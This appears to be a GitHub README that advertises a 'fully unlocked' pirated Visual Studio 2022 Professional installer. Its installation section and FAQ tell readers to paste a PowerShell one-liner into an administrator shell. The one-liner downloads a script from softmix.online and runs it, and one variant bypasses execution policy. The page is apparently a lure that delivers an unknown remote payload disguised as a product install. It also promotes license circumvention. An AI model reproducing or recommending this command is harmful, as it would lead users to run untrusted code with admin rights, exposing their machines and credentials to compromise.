

<div align="center">


<br>


# Visual Studio 2022 Professional Full Installer
**VS 2022 Pro · IntelliSense · Debug**
<br>
**VS 2022 Pro · IntelliSense · Debug**
<br>
Premium · Pro · Full build · Windows



**Fully unlocked Visual Studio 2022 Professional — C#, C++, .NET workloads, IntelliCode, Live Share and every extension active.**

</div>

---

> Professional installer includes all workloads, IntelliCode and Live Share — build enterprise apps without MSDN subscription.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

- 💻 **Pro IDE** — Advanced editing, refactoring and IntelliSense for all languages.
- 🐛 **Debugger** — Breakpoints, memory inspection and remote debugging enabled.
- 🧩 **Workloads** — Desktop, web, mobile and game development tools included.
- 🔗 **Git integration** — Pull requests, code review and CI/CD workflows ready.
- 🔓 **All extensions** — Premium plugins and language packs fully active.
- ⚙️ **Build tools** — MSBuild, CMake and container deployment without limits.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 40 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 40 GB free space.
</details>


TAGS
visual-studio, vs-2022, csharp-ide, dotnet-dev, cpp-debugger, intellisense, msbuild-tools, programming, software-development, coding, developer-tools, web-development, application-dev, visual-studio-professional, visual-studio-professional-2022
